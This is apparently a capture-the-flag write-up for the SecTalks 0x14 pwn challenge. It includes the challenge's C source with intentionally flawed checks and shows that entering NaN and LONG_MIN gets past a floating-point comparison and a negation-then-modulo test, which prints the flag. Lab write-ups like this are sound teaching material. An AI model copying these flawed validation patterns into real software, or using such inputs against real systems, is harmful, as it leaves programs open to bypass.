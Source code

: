 ```yaml
---
layout: post
title: "Sectalks 0x14 pwn write up"
description: "sectalks 0x14 pwn write up"
category: writeups
tags: [boot2root, vulnhub]
---
```

For the first challenge, the source code for the service is provided.
Our task is to bypass the two checks so we can retrieve the flag.
I've added my comments to the provided source code.

```c
/* Source: http://212.71.244.194/ds/pwn/ */

#include <stdio.h>
#include <stdint.h>
#include <stdbool.h>
#include <unistd.h>
#include <stdlib.h>
#include <error.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <limits.h>

void err_exit(char *e) {
  fprintf(stderr, "%s\n", e);
  _exit(1);
}

char* getln(void) {
  char *buf = NULL;
  size_t len = 0;
  if (getdelim(&buf, &len, '\n', stdin) <= 0) {
    err_exit("getdelim() failed");
  }
  return buf;
}

int main(void) {
  int fd;
  char b[50];

  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);

  printf("Quote of the day v0.3. Answer a few questions to get one\n");

  printf("Your double number: ");
  char *buf = getln();

  double d = strtod(buf, NULL); //XXX: First challenge, bypass the floating point number check
  if (errno != 0) {
    err_exit("strtold() failed");
  }
  /* Is there any IEEE floating point number which can pass those checks? */
  if (d <= 42.0l) {
    err_exit("d is too low");
  }
  if (d > 42.0l) {
    err_exit("d is too high");
  }

  printf("Your integer number: ");
  buf = getln();

  long l = strtol(buf, NULL, 0); //XXX: Second challenge, bypass the modulo check
  if (errno != 0) {
    err_exit("strtol() failed");
  }
  if (l < 0) {
    l = -l;
  }  
  l %= 3;
  /* number%3 results in either 0, 1 or 2. So, we're safe here. Most likely :) */
  if (l == 0) {
    err_exit("Your quote: Never miss a chance to keep your mouth shut");
  }
  if (l == 1) {
    err_exit("Your quote: I'm still an atheist, thank God");
  }
  if (l == 2) {
    err_exit("Your quote: Nothing ever goes away");
  }

  printf("Getting to this point means you deserve a flag: ");
  fd = open("/home/pwn/flag.txt", O_RDONLY);
  read(fd, &b, sizeof(b));
  printf("%s\n", b);
  close(fd);
  
  return 0;
}
```

Reading the man page for the strtod function, the function is described as "functions convert the initial portion of the string pointed to by nptr to double, float, and long double representation, respectively".
Reading the description further we see that the function accepts a couple different types on input including, decimal number, hexadecimal number, infinity and not-a-number.

```
DESCRIPTION
       The strtod(), strtof(), and strtold() functions convert the initial portion of the string pointed to by nptr to double, float, and long double representation, respectively.

       The expected form of the (initial portion of the) string is optional leading white space as recognized by isspace(3), an optional plus ('+') or minus sign ('-') and then either (i) a decimal number,
       or (ii) a hexadecimal number, or (iii) an infinity, or (iv) a NAN (not-a-number).

       A decimal number consists of a nonempty sequence of decimal digits possibly containing a radix character (decimal point, locale-dependent, usually '.'), optionally followed by a decimal exponent.  A
       decimal exponent consists of an 'E' or 'e', followed by an optional plus or minus sign, followed by a nonempty sequence of decimal digits, and indicates multiplication by a power of 10.

       A hexadecimal number consists of a "0x" or "0X" followed by a nonempty sequence of hexadecimal digits possibly containing a radix character, optionally followed by a binary exponent.  A binary expo\u2010
       nent consists of a 'P' or 'p', followed by an optional plus or minus sign, followed by a nonempty sequence of decimal digits, and indicates multiplication by a power of 2.  At  least  one  of  radix
       character and binary exponent must be present.

       An infinity is either "INF" or "INFINITY", disregarding case.

       A NAN is "NAN" (disregarding case) optionally followed by a string, (n-char-sequence), where n-char-sequence specifies in an implementation-dependent way the type of NAN (see NOTES).
```

Since there are a few unusual inputs, I started inputing them into the program to see how it'd handle the input.

```
root@kali:~/sectalks# nc 10.20.0.5 60007
Quote of the day v0.3. Answer a few questions to get one
Your double number: INF
d is too high
root@kali:~/sectalks# nc 10.20.0.5 60007
Quote of the day v0.3. Answer a few questions to get one
Your double number: NaN
Your integer number: ^C
```

The program does not handle "not a number" and I'm able to bypass the first check.
Moving onto the next check, I again checked the man pages for any unusual behaviour.

```
DESCRIPTION
       The strtol() function converts the initial part of the string in nptr to a long integer value according to the given base, which must be between 2 and 36 inclusive, or be the special value 0.

       The  string  may begin with an arbitrary amount of white space (as determined by isspace(3)) followed by a single optional '+' or '-' sign.  If base is zero or 16, the string may then include a "0x"
       prefix, and the number will be read in base 16; otherwise, a zero base is taken as 10 (decimal) unless the next character is '0', in which case it is taken as 8 (octal).

       The remainder of the string is converted to a long int value in the obvious manner, stopping at the first character which is not a valid digit in the given base.  (In bases above 10, the letter  'A'
       in either uppercase or lowercase represents 10, 'B' represents 11, and so forth, with 'Z' representing 35.)

       If  endptr is not NULL, strtol() stores the address of the first invalid character in *endptr.  If there were no digits at all, strtol() stores the original value of nptr in *endptr (and returns 0).
       In particular, if *nptr is not '\0' but **endptr is '\0' on return, the entire string is valid.

       The strtoll() function works just like the strtol() function but returns a long long integer value.

RETURN VALUE
       The strtol() function returns the result of the conversion, unless the value would underflow or overflow.  If an underflow occurs, strtol() returns LONG_MIN.  If an overflow occurs, strtol() returns
       LONG_MAX.  In both cases, errno is set to ERANGE.  Precisely the same holds for strtoll() (with LLONG_MIN and LLONG_MAX instead of LONG_MIN and LONG_MAX).
```

Again we see that the function takes in a string and coverts it to a long integar. What's interesting is the return values sections where if an underflow or overflow occurs.
Checking [online](https://en.wikibooks.org/wiki/C_Programming/C_Reference/limits.h) the default values for LONG_MIN is -9223372036854775808 and LONG_MAX is +9223372036854775807.
Inputting the max and min values we see that min value gets accepted and bypasses the check.

```
root@kali:~/sectalks# nc 10.20.0.5 60007
Quote of the day v0.3. Answer a few questions to get one
Your double number: NaN
Your integer number: 9223372036854775807
Your quote: I'm still an atheist, thank God
root@kali:~/sectalks# nc 10.20.0.5 60007
Quote of the day v0.3. Answer a few questions to get one
Your double number: NaN
Your integer number: -9223372036854775808
Getting to this point means you deserve a flag: hack.Sydney{mY_g0d_1ts_fU11_of_nUm83rZ}
@
```

The flag for pwn is ***hack.Sydney{mY_g0d_1ts_fU11_of_nUm83rZ}***
